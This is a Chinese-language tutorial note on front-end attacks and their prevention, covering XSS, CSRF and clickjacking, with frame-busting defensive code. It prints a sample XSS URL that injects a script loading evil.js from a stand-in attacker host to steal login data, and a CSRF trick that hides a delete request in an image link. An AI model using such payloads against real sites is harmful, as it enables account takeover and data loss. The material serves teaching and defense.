 ```yaml
---
tags: ['前端安全', 'xss', 'csrf', '跨站请求伪造','跨站脚本攻击']
---
```

# 针对前端的攻击及防范

>#### 参考链接：
> 1. [Web前端安全不可忽视](https://blog.csdn.net/_sai_/article/details/49125667)
> 2. [前端常见的攻击方式及预防方法](https://www.jianshu.com/p/a5ff8a23b423)
> 3. [CSRF攻击原理及防御](https://www.cnblogs.com/shytong/p/5308667.html)
> 4. [用大白话谈谈XSS与CSRF](https://segmentfault.com/a/1190000007059639)

## 一、 XSS（跨站脚本攻击）
XSS是Cross Site Scripting的缩写，即跨站点脚本攻击。XSS发生在浏览器端。当用户打开了一个页面，且该页面未对第三方来源数据做有效拦截时，就很容易收到恶意攻击从而泄露数据。例如某网站中代码中有如下代码：
```javascript
eval(location.hash.slice(1))
```
攻击者就可以通过在url中构建特殊的hash值，达到恶意攻击的目的，例如：
```javascript
http://host/test.html#document.write("<script/src=//www.evil.com/evil.js></script>")
```
这样攻击者就可以向该网站注入恶意代码以获取用户的登陆信息。

::: tip 总结
XSS攻击的特点就是：尽一切办法在目标网站上执行第三方的恶意代码。
:::
#### 防范
_**1. 不要相信用户输入，做好输入转码**_

_**2. 不要相信任何第三方请求数据，如：jsonp请求到的数据**_

一个更安全的方式是使用新标准HTML5中引入的CORS，这项技术在国内还很少使用，但在国外使用的例子已经有很多了。JSONP技术提供的跨域数据访问钻了同源策略的空子，算是技巧性的方案，而CORS则是从规范上专门定义的一项跨域数据访问的技术。CORS比JSONP更先进和可靠，并且已经得到了主流浏览器的支持。JSONP只能用GET请求，而CORS不受这样的限制，甚至可以通过AJAX发起请求。CORS主要的原理是在服务器端设置Access-Control-Allow-Origin头，从而限定了服务请求的发起端。如下是一个设置的示例：

## 二、 CSRF（跨站请求伪造）
CSRF是Cross Site Request Forgery，即为跨站请求伪造，通常来说CSRF是由XSS实现的，所以CSRF时常也被称为XSRF[用XSS的方式实现伪造请求]。指攻击者通过一些手段诱导用户发起一些用户无法察觉的恶意请求，即伪造的请求。

假设某个网站通过如下接口进行数据删除：
```javascript
http://host/path/del?id=xx
```
攻击者可以在此网站上发布一张图片，且将图片地址设置成此链接。这样，当用户访问到这张图片时，就相当于发起了一个删除数据的请求，且用户本身并未察觉。

## 三、 界面操作劫持

界面操作劫持是利用视觉欺骗，诱导用户操作。比如在可见的输入框中覆盖一个不可见的框，用户输入的数据就会被劫持。例如：

攻击者制作一个网页，并将目标网站作为iframe引入并完整显示，同时在目标网站输入框位置放置自己的透明输入框。如果用户进入此页面，且未注意到网址的不同，当用户在输入账号信息的时候，数据就会被劫持。
#### 防范
_**阻止第三方将你的网站设置成iframe,**_

在网站中添加如下代码：
```html
<style id="antiClickjack">body{display:none !important;}</style>
````
同时添加类似如下的JavaScript代码：
```javascript
<script type="text/javascript">
   if (self === top) {
       var antiClickjack = document.getElementById("antiClickjack");
       antiClickjack.parentNode.removeChild(antiClickjack);
   } else {
       top.location = self.location;
   }
</script>

```